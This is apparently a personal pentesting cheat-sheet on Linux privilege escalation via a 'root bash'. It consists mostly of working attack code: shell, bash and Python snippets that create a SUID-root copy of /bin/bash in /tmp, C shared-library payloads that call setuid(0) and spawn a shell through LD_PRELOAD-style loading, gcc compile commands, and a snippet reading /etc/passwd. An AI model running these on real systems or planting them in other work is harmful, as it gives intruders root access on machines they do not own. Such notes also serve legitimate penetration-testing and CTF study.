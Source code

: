 # Root Bash

<div class="row row-cols-lg-2"><div>

A root bash is a (bash) shell that was executed as root. For instance, using an attack vector such as a SUID script, we may run:

```ps
$ cp /bin/bash /tmp/rootbash
$ chown root /tmp/rootbash
$ chmod +s /tmp/rootbash
```
</div><div>

If you are successful, you can use `-p` (and `-i`) to run it:

```ps
$ /tmp/rootbash -p
root@xxx$
```

📚 Replace `root` with another user according to the attack vector.
</div></div>

<hr class="sep-both">

<div class="row row-cols-lg-2"><div>

#### Root Bash (script)

Remember to make it executable using `chmod +x root.sh`.

```bash!
#!/usr/bin/env /bin/bash
cp /bin/bash /tmp/rootbash
chown root /tmp/rootbash
chmod +s /tmp/rootbash
```
</div><div>

#### Root Bash (Python)

The values `0,0` are the UID/GID. `0o4755` means `755` with SUID.

```py
import shutil
import os

source_path = '/bin/bash'
destination_path = '/tmp/rootbash'
shutil.copy2(source_path, destination_path)
os.chown(destination_path, 0, 0)
os.chmod(destination_path, 0o4755)
```
</div></div>

<hr class="sep-both">

## Root Bash Static Library

<div class="row row-cols-lg-2"><div>

Short simplified program.

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Long program.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

To compile, use:

```shell!
$ gcc -shared -fPIC init.c -o init.so
```

Or, if you are compiling the function `_init`:

```shell!
$ gcc -shared -fPIC init.c -o init.so -nostartfiles
```

⚠️ Remember to ensure that the file is readable by those that need it.

```shell!
$ chmod 777 init.so       # 😏 - avoid it
```

<details class="details-n">
<summary>Read a file in C</summary>

```c
FILE *file = fopen("/etc/passwd", "r");
if (file == NULL) {
    printf("Error opening the file.\n");
    return;
}
char buffer[256];
while (fgets(buffer, sizeof(buffer), file) != NULL) {
    printf("%s", buffer);
}
fclose(file);
```
</details>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```c
// gcc -shared -fPIC shell.c -o shell.so
#include<stdio.h>
#include<stdlib.h>

void __attribute__((constructor)) shell();

void main() {};

void shell() {
    system("id");
}
```
</div><div>
</div></div>